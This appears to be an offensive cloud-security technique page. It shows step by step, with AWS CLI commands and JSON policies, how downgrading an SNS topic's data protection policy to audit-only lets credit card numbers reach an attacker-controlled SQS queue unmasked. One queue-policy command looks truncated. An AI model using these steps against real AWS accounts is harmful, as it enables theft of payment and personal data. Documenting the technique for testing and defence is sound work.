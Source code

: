 # AWS - SNS Message Data Protection Bypass via Policy Downgrade

If you have `sns:PutDataProtectionPolicy` on a topic, you can switch its Message Data Protection policy from Deidentify/Deny to Audit-only (or remove Outbound controls) so sensitive values (e.g., credit card numbers) are delivered unmodified to your subscription.

## Requirements
- Permissions on the target topic to call `sns:PutDataProtectionPolicy` (and usually `sns:Subscribe` if you want to receive the data).
- Standard SNS topic (Message Data Protection supported).

## Attack Steps

- Variables

  ```bash
  REGION=us-east-1
  ```

1) Create a standard topic and an attacker SQS queue, and allow only this topic to send to the queue

   ```bash
   TOPIC_ARN=$(aws sns create-topic --name ht-dlp-bypass-$(date +%s) --region $REGION --query TopicArn --output text)
   Q_URL=$(aws sqs create-queue --queue-name ht-dlp-exfil-$(date +%s) --region $REGION --query QueueUrl --output text)
   Q_ARN=$(aws sqs get-queue-attributes --queue-url "$Q_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

   aws sqs set-queue-attributes --queue-url "$Q_URL" --region $REGION --attributes Policy=Version:2012-10-17
   ```

2) Attach a data protection policy that masks credit card numbers on outbound messages

   ```bash
   cat > /tmp/ht-dlp-policy.json <<'JSON'
   {
     "Name": "__ht_dlp_policy",
     "Version": "2021-06-01",
     "Statement": [{
       "Sid": "MaskCCOutbound",
       "Principal": ["*"],
       "DataDirection": "Outbound",
       "DataIdentifier": ["arn:aws:dataprotection::aws:data-identifier/CreditCardNumber"],
       "Operation": { "Deidentify": { "MaskConfig": { "MaskWithCharacter": "#" } } }
     }]
   }
   JSON
   aws sns put-data-protection-policy --region $REGION --resource-arn "$TOPIC_ARN" --data-protection-policy "$(cat /tmp/ht-dlp-policy.json)"
   ```

3) Subscribe attacker queue and publish a message with a test CC number, verify masking

   ```bash
   SUB_ARN=$(aws sns subscribe --region $REGION --topic-arn "$TOPIC_ARN" --protocol sqs --notification-endpoint "$Q_ARN" --query SubscriptionArn --output text)
   aws sns publish --region $REGION --topic-arn "$TOPIC_ARN" --message payment:{cc:4539894458086459}
   aws sqs receive-message --queue-url "$Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 15 --message-attribute-names All --attribute-names All
   ```

Expected excerpt shows masking (hashes):

```json
"Message" : "payment:{cc:################}"
```

4) Downgrade the policy to audit-only (no deidentify/deny statements affecting Outbound)

For SNS, Audit statements must be Inbound. Replacing the policy with an Audit-only Inbound statement removes any Outbound de-identification, so messages flow unmodified to subscribers.
   ```bash
   cat > /tmp/ht-dlp-audit-only.json <<'JSON'
   {
     "Name": "__ht_dlp_policy",
     "Version": "2021-06-01",
     "Statement": [{
       "Sid": "AuditInbound",
       "Principal": ["*"],
       "DataDirection": "Inbound",
       "DataIdentifier": ["arn:aws:dataprotection::aws:data-identifier/CreditCardNumber"],
       "Operation": { "Audit": { "SampleRate": 99, "NoFindingsDestination": {} } }
     }]
   }
   JSON
   aws sns put-data-protection-policy --region $REGION --resource-arn "$TOPIC_ARN" --data-protection-policy "$(cat /tmp/ht-dlp-audit-only.json)"
   ```

5) Publish the same message and verify the unmasked value is delivered
   ```bash
   aws sns publish --region $REGION --topic-arn "$TOPIC_ARN" --message payment:{cc:4539894458086459}
   aws sqs receive-message --queue-url "$Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 15 --message-attribute-names All --attribute-names All
   ```
Expected excerpt shows cleartext CC:

```text
4539894458086459
```

## Impact
- Switching a topic from de-identification/deny to audit-only (or otherwise removing Outbound controls) allows PII/secrets to pass through unmodified to attacker-controlled subscriptions, enabling data exfiltration that would otherwise be masked or blocked.

